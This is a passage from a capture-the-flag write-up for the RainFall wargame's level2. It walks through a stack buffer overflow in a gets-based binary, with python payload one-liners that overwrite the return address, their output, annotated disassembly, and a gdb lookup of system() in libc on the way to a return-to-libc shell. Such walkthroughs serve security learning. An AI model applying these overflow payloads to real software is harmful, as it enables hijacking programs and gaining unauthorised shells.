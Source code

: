 Let’s use another address that doesn’t start with 0xb then :

```nasm
level2@RainFall:~$ python -c 'print "A" * 80 + "\x40\x85\x04\x08"' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@AAAAAAAAAAAA@
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJAAAAAAAA`J
Segmentation fault (core dumped)
```

It printed some of the ‘A’ we provided and some other memory, but it’s not enough yet.

Here i provided a random address ( this line in main : `0x08048540 <+1>:     mov    ebp,esp` ) but if the address is relevant, this line could indeed create a segfault.

Let’s try pointing to this line instead :  `0x08048516 <+66>:    call   0x80483a0 [printf@plt](mailto:printf@plt)           // Call printf` and hope it executes printf and then exits with 1

```nasm
level2@RainFall:~$ python -c 'print "A" * 80 + "\x16\x85\x04\x08"' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
level2@RainFall:~$ echo $?
1
```

We can’t see any `printf` output but we did indeed exit with 1, so it seems that we’re still going through that part of the program by modifying the address in our payload : 

```nasm
0x08048516 <+66>:    call   0x80483a0 <printf@plt>           // Call printf                                                        
0x0804851b <+71>:    mov    DWORD PTR [esp],0x1              // Put 1 on top of the stack                                          
0x08048522 <+78>:    call   0x80483d0 <_exit@plt>            // Call exit with 1
```

Let’s recap what we know so far :

- Gets is vulnerable again and we can use a payload to bypass the check
- There is no way to get a shell or a password directly from the program
- We can add an address to our payload and it will execute code from there

Knowing that, what we want to do is find a way to get a shell or the password directly. In level1 there was a call to system, it isn’t present in the code here but maybe we can still find it’s address in libc ? 

After some research we learn that `gdb` can do that !

```nasm
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048542
(gdb) run
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
